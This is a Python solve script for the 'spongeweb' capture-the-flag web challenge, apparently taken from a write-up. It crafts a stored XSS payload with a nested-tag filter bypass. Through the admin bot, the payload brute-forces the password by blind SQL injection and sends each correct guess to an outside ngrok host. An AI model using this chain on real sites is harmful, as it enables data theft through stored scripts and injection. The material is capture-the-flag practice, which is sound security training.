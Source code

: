 ```python
def make_payload(current_flag):
    payload = f'''<s<script></script>cript>const h = Array.from('0123456789abcdef');
var flag = '{current_flag}';
h.forEach(c => {{
    let guess = flag + c;
    fetch(`http://spongeweb.challs.srdnlen.it/admin?query=users WHERE hex(password) LIKE '` + guess + `%'`)
        .then(p => p.text())
        .then(t => {{
            let ans = t[t.indexOf('</h2>') - 1];
            // console.log(t);
            if (ans == '1') {{
                fetch('https://1234-abcd.ngrok-free.app?' + encodeURIComponent(flag + c), {{method: 'POST'}});
            }}
        }});
}})</s<script></script>cript>'''
    return payload

def make_post(post):
    data = {
        'title': 'ulisse is cool',
        'thread': post,
    }
    response = requests.post('http://spongeweb.challs.srdnlen.it/thread', data=data, verify=False)
    post_url = response.url
    return post_url

def report_url(url):
    global has_responded
    has_responded = False

    data = {
        'url': url,
    }

    requests.post('http://spongeweb.challs.srdnlen.it/report/', data=data, verify=False)
    print('reported')

def try_next(flag):
    payload = make_payload(flag)
    url = make_post(payload)
    report_url(url)

def solve():
    while True:
        print(f'FLAG {flag}')
        print(f'sleeping 5...')
        sleep(5) # Avoid getting throttled
        print(f'resuming...')
        try_next(flag)
        start = clock_gettime(CLOCK_MONOTONIC)
        print('waiting response')
        while not has_responded:
            if clock_gettime(CLOCK_MONOTONIC) > start + TIMEOUT:
                print("TIMEOUT :(")
                print(start)
                print(clock_gettime(CLOCK_MONOTONIC))
                print(has_responded)
                exit()
            sleep(0.1)

a = Thread(target=solve)
```